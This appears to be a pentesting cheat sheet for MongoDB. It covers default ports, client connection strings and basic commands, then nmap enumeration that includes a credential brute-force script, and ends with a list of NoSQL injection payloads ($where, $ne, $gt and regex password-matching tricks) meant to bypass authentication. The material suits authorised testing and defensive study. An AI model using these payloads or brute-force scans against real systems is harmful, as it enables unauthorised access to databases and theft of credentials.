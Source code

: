 # MongoDB
MongoDB is an open source database management system that uses a document-oriented database model to handle diverse forms of data. 
It offers flexibility and scalability for managing unstructured or semi-structured data in applications like big data analytics and content management.

## Ports
```
27017 Default #1
27018 Default #2
```

## Connection

```bash
mongo -u <username> -p <password> <auth_source>
mongo "mongodb://USERNAME:PASSWORD@IP:PORT/SOURCE?mechanism=DEFAULT&authSource=SOURCE"
mongo "mongodb://HOST:PORT"
mongo <HOST> 
mongo <HOST>:<PORT> 
mongo <HOST>:<PORT>/<DB> 
mongo <database> -u <username> -p '<password>'
```

## Commands

```
show dbs
use <db>
show collections
db.<collection>.find()
db.<collection>.count()
db.current.find({"username":"admin"})
```

# Enumeration
## Remote
```bash
nmap -sV --script "mongo* and default" -p 27017 <IP>

# Check if credentials are needed
nmap -n -sV --script mongodb-brute -p 27017 <IP>
```

# Payloads for SQLi

```
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1'
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
';return 'a'=='a' && ''=='
";return(true);var xyz='a
0;return true
```


# References
- [https://book.hacktricks.wiki/en/network-services-pentesting/27017-27018-mongodb.html](https://book.hacktricks.wiki/en/network-services-pentesting/27017-27018-mongodb.html)